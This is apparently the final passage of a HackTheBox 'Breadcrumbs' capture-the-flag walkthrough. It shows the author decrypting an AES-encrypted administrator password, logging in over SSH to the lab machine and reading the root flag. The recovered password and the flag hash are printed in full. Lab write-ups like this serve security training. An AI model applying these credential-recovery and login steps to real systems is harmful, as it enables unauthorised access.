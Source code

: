 We get a base64 encrypted password with an aes key, we go to CyberChef (our decoder / encoder prefer ^^)

Import From Base64 and import aes Decrypt, add aes key too, with input and output mode raw
Key in Latin and IV in hex (iv =0000000000000000).

Like this :

![hack](https://media.discordapp.net/attachments/490431433559506954/823469417420554250/unknown.png)

And we finally get the administrator password :

```sh
p@ssw0rd!@#$9890./
```

Now ssh administrator :

```sh
?--san1ty@san1ty ~/HackTheBox/Breadcrumbs  
?-?  ssh administrator@10.10.10.228
administrator@10.10.10.228's password: 
Microsoft Windows [Version 10.0.19041.804]
(c) 2020 Microsoft Corporation. All rights reserved.

administrator@BREADCRUMBS C:\Users\Administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\Administrator

01/26/2021  10:06 AM    <DIR>          .
01/26/2021  10:06 AM    <DIR>          ..
01/15/2021  04:56 PM    <DIR>          3D Objects 
01/15/2021  04:56 PM    <DIR>          Contacts   
02/09/2021  08:08 AM    <DIR>          Desktop    
01/15/2021  04:56 PM    <DIR>          Documents  
01/15/2021  04:56 PM    <DIR>          Downloads  
01/15/2021  04:56 PM    <DIR>          Favorites  
01/15/2021  04:56 PM    <DIR>          Links      
01/15/2021  04:56 PM    <DIR>          Music      
01/15/2021  05:00 PM    <DIR>          OneDrive   
01/15/2021  04:57 PM    <DIR>          Pictures   
01/15/2021  04:56 PM    <DIR>          Saved Games
01/15/2021  04:57 PM    <DIR>          Searches   
01/15/2021  04:56 PM    <DIR>          Videos     
               0 File(s)              0 bytes     
              15 Dir(s)   3,500,806,144 bytes free

administrator@BREADCRUMBS C:\Users\Administrator>cd Desktop

administrator@BREADCRUMBS C:\Users\Administrator\Desktop>type root.txt
5e6d65093806f0274febf849b09ea8d9
```
